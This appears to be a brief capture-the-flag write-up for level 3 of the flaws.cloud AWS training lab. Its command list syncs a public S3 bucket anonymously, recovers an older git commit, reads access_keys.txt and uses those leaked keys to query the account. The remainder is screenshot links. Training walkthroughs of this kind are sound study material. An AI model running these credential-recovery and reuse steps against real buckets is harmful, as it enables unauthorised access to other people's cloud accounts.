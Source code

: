 # 
```
host level3-9afd3927f195e10225021a578e6f78df.flaws.cloud
host 52.92.249.131
aws s3 ls s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud --region us-west-2 --no-sign-request
aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud --region us-west-2 --no-sign-request .
git log
git status
git stash
git log
git checkout f52ec03b227ea6094b04e43f475fb0126edb5a61\n
ls
cat access_keys.txt
aws --profile=flaws-cloud-3 s3 ls
aws --profile=flaws-cloud-3 iam get-user
aws --profile=flaws-cloud-3 sts get-caller-identity
```
![image](https://github.com/Krishna-Gopal-Pathak/CyberSecurity/assets/142927819/ca475f64-5520-4fcd-8df6-21b1a26615f2)
![image](https://github.com/Krishna-Gopal-Pathak/CyberSecurity/assets/142927819/069d9d56-22ca-40ac-bec6-e86bb2e0f4d9)
![image](https://github.com/Krishna-Gopal-Pathak/CyberSecurity/assets/142927819/b3039c0e-11c7-4ca7-833f-e55e01181720)
![image](https://github.com/Krishna-Gopal-Pathak/CyberSecurity/assets/142927819/437f8e36-e5bb-4fac-a68c-8db7642f0f48)
![image](https://github.com/Krishna-Gopal-Pathak/CyberSecurity/assets/142927819/cf354dd2-dd61-4031-8d97-d303df794dac)






